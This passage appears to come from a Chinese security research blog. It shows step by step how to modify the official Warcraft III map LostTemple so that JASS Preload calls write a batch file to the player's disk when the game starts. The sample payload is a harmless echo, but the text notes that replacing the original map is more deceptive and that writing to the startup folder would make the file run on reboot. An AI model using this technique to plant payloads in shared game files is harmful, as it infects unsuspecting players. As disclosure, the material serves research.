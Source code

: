 ```
```


测试成功


### 2、手动修改官方地图LostTemple


(1) 获得源文件

使用HkeW3mModifier打开官方地图`(4)LostTemple.w3m`，导出war3map.j

(2) 添加payload

根据上文对war3map.j中文件结构的分析，在`function Trig_Melee_Initialization_Actions`内添加如下代码：

```
call PreloadGenClear()
call PreloadGenStart()
call Preload("\n@echo Test\n")
call PreloadGenEnd("c:\\test\\test.bat")
```

如图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2016-11-22/3-2.png)


(3) 保存

保存war3map.j后，在HkeW3mModifier选择替换(添加)文件，如图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2016-11-22/3-3.png)



选择重压缩，保存地图文件，如图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2016-11-22/3-4.png)



(4) 测试

将地图置于Maps文件夹下，进入游戏，地图被识别，如图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2016-11-22/4-1.png)

**注：**
为便于测试，已将地图名称修改为Test；覆盖原地图，迷惑性更大


开始游戏，c:\test\下产生文件test.bat，内容如下：

```
function PreloadFiles takes nothing returns nothing

  call Preload( "
@echo Test
" )
  call PreloadEnd( 0.0 )

endfunction
```
如果将该文件输出到开机自启动目录，那么在重启后，文件将会执行

